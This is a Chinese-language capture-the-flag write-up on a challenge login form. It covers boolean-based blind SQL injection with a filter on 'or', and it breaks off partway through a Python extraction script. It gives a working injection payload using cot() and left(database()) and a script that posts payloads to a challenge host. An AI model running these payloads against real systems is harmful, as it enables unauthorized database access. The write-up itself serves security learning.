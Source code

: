 知识点：布尔型盲注，Waf Bypass，MySQL 客户端任意文件读取

1、打开靶机。

![](https://www.zhaoj.in/wp-content/uploads/2019/04/1555774013ba8bfa2d9fa1b74cfb3f8a863144b801-1024x252.png)

2、然后测试提交，抓包看看。

[![](https://www.zhaoj.in/wp-content/uploads/2019/04/15557740662198f4f348e88dfd57a99aa013ba1ebe-1024x613.png)](blob:https://www.zhaoj.in/dd989588-efaf-4320-84ea-4cf357ce3315)

3、放到 postman 里试试。

[![](https://www.zhaoj.in/wp-content/uploads/2019/04/1555774294e2b75176469d1773629a98cd14b653d5-1024x675.png)](https://www.zhaoj.in/wp-content/uploads/2019/04/1555774294e2b75176469d1773629a98cd14b653d5.png)

4、不断 fuzz。主要观察到以下几个现象。

*   username 有注入点。
*   过滤了 or。
*   当最终拼接语句无错误时无论结果如何均为 登录失败。
*   当最终语句有错时返回为 数据库操作失败。

5、根据这两个返回，就可以判断其为 布尔型盲注 了。

6、综上，测试 payload 如下。

username = admin’ union select cot(1 and left(database(),1)>’a’);#

当 left(database(),1)>’a’) 也就是条件为真时，1 and left(database(),1)>’a’ 整个表达式大于 0，没有错误爆出。

当条件为假时，1 and left(database(),1)>’a’ 等于 0，有错误爆出。

上面所说有语句正确执行与否时返回不同，就可以这样区分了。

7、从这儿 [http://zzqsmile.top/2018/06/04/python3/2018-06-04-%E5%B8%83%E5%B0%94%E7%9B%B2%E6%B3%A8/](http://zzqsmile.top/2018/06/04/python3/2018-06-04-%E5%B8%83%E5%B0%94%E7%9B%B2%E6%B3%A8/) 找了个小脚本，把我们的 payload 放进去，修改一下返回判断条件。

同时注意 or 被过滤了，所以 information_schema 也传不上去了。这里就得自己猜猜表名了。
```
    #!/usr/bin/env python3
    # -*- coding: utf-8 -*-

    import requests


    def main():
        get_all_databases("http://39.97.167.120:52105/")


    def http_get(url, payload):
        result = requests.post(url, data={'username': 'admin' + payload, 'password': '123456'})
        result.encoding = 'utf-8'
        if result.text.find('数据库操作失败') == -1:
            return True
        else:
            return False


    # 获取数据库
    def get_all_databases(url):
        db_nums_payload = "select count(*) from users"
        db_numbers = half(url, db_nums_payload)
        print("长度为：%d" % db_numbers)


    # 二分法函数
    def half(url, payload):
```